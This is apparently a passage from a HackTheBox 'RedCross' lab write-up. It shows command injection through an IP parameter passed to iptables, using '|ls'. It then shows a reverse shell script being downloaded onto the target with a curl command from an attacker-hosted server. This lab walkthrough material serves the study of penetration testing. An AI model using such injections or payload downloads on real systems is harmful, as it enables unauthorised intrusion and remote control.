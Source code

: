 #### We notice that it's saying `Executing iptables` , so the ip we provide will be a part of a system command. I added `|ls` to the ip parameter in the deny request and got this response :
![](/images/hackthebox/redcross/28.png)
<br>
<br>
![](/images/hackthebox/redcross/29.png)
#### Nice we have an RCE , let's get a reverse shell , I created a reverse shell and called it `shell.sh` :
![](/images/hackthebox/redcross/30.png)
#### Then I hosted it on a python simple HTTP server , and downloaded it on the box : `curl http://10.10.xx.xx/shell.sh > /tmp/shell.sh`
![](/images/hackthebox/redcross/31.png)
#### Python Server :
![](/images/hackthebox/redcross/32.png)
#### Let's verify that the shell is on the box :
![](/images/hackthebox/redcross/33.png)
<br>
<br>